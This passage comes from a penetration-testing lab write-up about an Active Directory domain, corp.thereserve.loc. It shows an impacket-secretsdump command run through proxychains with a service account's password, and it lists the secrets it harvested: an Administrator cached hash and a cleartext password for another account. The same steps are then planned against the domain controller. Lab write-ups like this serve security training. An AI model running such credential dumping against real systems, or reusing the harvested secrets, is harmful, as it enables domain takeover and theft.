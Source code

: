 
## With svcScanning user
Service accounts have more privileges than normal domain users. With the `svcScanning` account, we can carry out further attacks such as dumping secrets from the AD machines.

### Dump hashes on the `Server1` machine

$ `proxychains4 -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcScanning:'Password1!'@10.200.113.31`


![](https://lh7-us.googleusercontent.com/docsz/AD_4nXfFUB-EHaHwLam5KaYc9wRAYfVazfbOtAfZS3uUL6YxF4VlKk9hJlURi8ffJQkbx2xpP4ePSOWk42DVC2apfEWeHsyo6eZfpFl4VnMeNt7vUn3L16-K7HQCdZFELpK8-_cK1z69q57NWibfcfHlT3q1_Ot8?key=RYwlcatSjtv71wwEi5xjfQ)


#### Interesting discoveries

> There are a couple of things from this output that are of most interest.

- The Administrator’s NTLM hash.
	- <font color="#00b050">CORP.THERESERVE.LOC/Administrator</font>
	- $DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca
- The ClearText password for `svcBackups` account.
	- <font color="#00b050">svcBackups@corp.thereserve.loc:</font>
	- q9nzssaFtGHdqUV3Qv6G

## With svcBackups
Perform the same technique and dump secrets from the CORPDC machine, we will use the `svcBackups` account.

